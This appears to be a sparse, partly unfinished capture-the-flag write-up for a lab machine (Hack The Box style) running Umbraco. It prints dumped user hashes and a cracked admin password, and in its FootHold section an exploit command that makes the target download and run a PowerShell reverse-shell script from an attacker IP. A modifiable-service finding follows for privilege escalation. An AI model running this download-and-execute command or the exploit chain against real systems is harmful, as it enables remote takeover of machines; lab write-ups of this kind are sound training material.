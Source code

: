 Name & IP Address of Machine:
> REMOTE : `10.10.10.180`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

Hash in umbraco.sdf:
`admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese`
smith@htb.local:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=

```bash
Administratoradmindefaulten-US                                                                                                         
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                                                     
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d            
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7a
bdf50                                                                                                                                  
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4
f882f                                                                                                                                  
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen
-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e                                                                              
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.locale
n-US7e39df83-5e64-4b93-9702-ae257a9b9749                                                                                               
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.loca
len-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

## Synopsis


## Enumeration
Opened Ports: 
- [ ] 2049 (Network File System)



## FootHold
```bash
 python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28:8000/Invoke-PowerShellTcp.ps1')"

```
## Lateral Movement

## Privilege Escalation
```bash
  [+] Modifiable Services                                                                                                              
   [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services             
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:                                                                                          
    UsoSvc: AllAccess, Start                                                                                                    
```




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->